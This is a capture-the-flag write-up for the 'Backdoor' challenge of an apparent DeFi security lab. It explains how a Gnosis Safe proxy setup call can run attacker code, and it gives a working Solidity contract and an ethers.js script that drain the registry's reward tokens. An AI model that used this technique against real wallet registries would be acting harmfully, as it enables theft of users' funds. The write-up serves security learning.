 # Challenge #11 - Backdoor   
 To incentivize the creation of more secure wallets in their team, someone has deployed a registry of Gnosis Safe wallets. When someone in the team deploys and registers a wallet, they will earn 10 DVT tokens.

 To make sure everything is safe and sound, the registry tightly integrates with the legitimate Gnosis Safe Proxy Factory, and has some additional safety checks.

 Currently there are four people registered as beneficiaries: Alice, Bob, Charlie and David. The registry has 40 DVT tokens in balance to be distributed among them.

 Your goal is to take all funds from the registry. In a single transaction.   

## Gnosis Safe Backdoor injection
In this challenge, we have a vulnerable proxy which allows us to deploy a malicious 
smart contract executing some initializing code with full proxy admin privileges. That, is 
going to allow an attacker to steal the eth that the walletRegistry contract gives as a reward 
for a beneficiary to register.  

The challenge requires to craft the exploit fully in the smart contract in order to execute 
it in a single transaction. In my example there's multiple transactions as I craft the exploit 
mostly with ethersjs in the front-end.  

## Exploit 
In the smart contract I only approve the transfer of tokens:   
```sol
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface Itoken {
	function approve(address,uint) external returns (bool);
}

contract EXPLOIT_BACKDOOR {
	function exec(address token, address attacker) external {
		Itoken(token).approve(attacker, 10 ether);
	}
}

```
Ethers js exploit:  
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		// Deploy exploit
		this.exploit = await (await ethers.getContractFactory('EXPLOIT_BACKDOOR')).deploy();
		// Initiate byte code to execute
		const abi = [
			`function setup(        
				address[] calldata _owners,
		        uint256 _threshold,
		        address to,
		        bytes calldata data,
		        address fallbackHandler,
		        address paymentToken,
		        uint256 payment,
				address payable paymentReceiver) external`,
			"function exec(address, address) external "
		];
		const iface = new ethers.utils.Interface(abi);
		const exploitData = iface.encodeFunctionData("exec", [
			this.token.address,
			attacker.address
		]);
		// Create proxy for each benefeciary
		for(let i = 0; i < users.length; i++) {
		const initializerData = iface.encodeFunctionData("setup", [
			[users[i]], 
			1,
			this.exploit.address,
			exploitData,
			ethers.constants.AddressZero,
			ethers.constants.AddressZero,
			0,
			ethers.constants.AddressZero
		]);
		const tx = await this.walletFactory.createProxyWithCallback(
			this.masterCopy.address,
			initializerData,
			i,
			this.walletRegistry.address	
		);
		const reciept = await tx.wait();
		const proxy = reciept.events[2].args.proxy;
		await this.token.connect(attacker).transferFrom(proxy, attacker.address, ethers.utils.parseEther('10'));
		}
    });
```

